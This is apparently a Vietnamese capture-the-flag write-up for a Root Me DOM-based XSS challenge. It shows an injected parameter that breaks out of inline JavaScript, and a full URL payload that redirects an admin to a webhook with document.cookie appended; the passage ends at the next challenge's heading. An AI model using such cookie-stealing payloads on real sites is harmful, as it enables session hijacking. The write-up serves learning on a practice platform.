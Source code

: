 Mục đích của đoạn mã này là lấy số bất kỳ mà e nhập vào so sánh với số được sinh ra bởi hàm random :face_palm: 
Giả sử như em cực kỳ may mắn hoặc bằng 1 cách nào đó nhập đúng số sinh ra bởi hàm random thì em cũng sẽ không có được flag :-1: 

Bỏ qua phần bên trên, điều em chú ý đến là param number em nhập vào được truyền thằng vào biến number trong đoạn mã, đây chính là dấu hiệu cho em bắt đầu thực hiện DOM based XSS.

## Khai thác

Bắt đầu bằng việc thử với alert: `?number=a%27;%20alert(1);%20//`

![](https://i.imgur.com/boANbS4.png)

Và đây là đoạn js được lưu trong DOM: 
```javascript
 var random = Math.random() * (99);
    var number = 'a'; alert(1); //';
    if(random == number) {
        document.getElementById('state').style.color = 'green';
        document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
    }
    else{
        document.getElementById('state').style.color = 'red';
        document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
    }
```

Giờ để lấy được cookie của admin em thực hiện tạo một link đến website bị lỗi DOM based XSS chứa script chuyển hướng admin vào link webhook em sở hữu kèm theo cookie của admin:

```url
http://challenge01.root-me.org/web-client/ch32/index.php?number=a%27;%20window.location.href=`[Link webhook]?cookie=${document.cookie}`;//
```

Gửi đoạn url này cho admin ở page `/contact` và ở webhook chờ cookie của admin về thoiii :face_with_finger_covering_closed_lips: 

![](https://i.imgur.com/IPiKivr.png)


---

# Root Me/XSS - DOM Based AngularJS

![](https://i.imgur.com/JpP5Cys.png)

Link to char: http://challenge01.root-me.org/web-client/ch35/

## Phân tích 
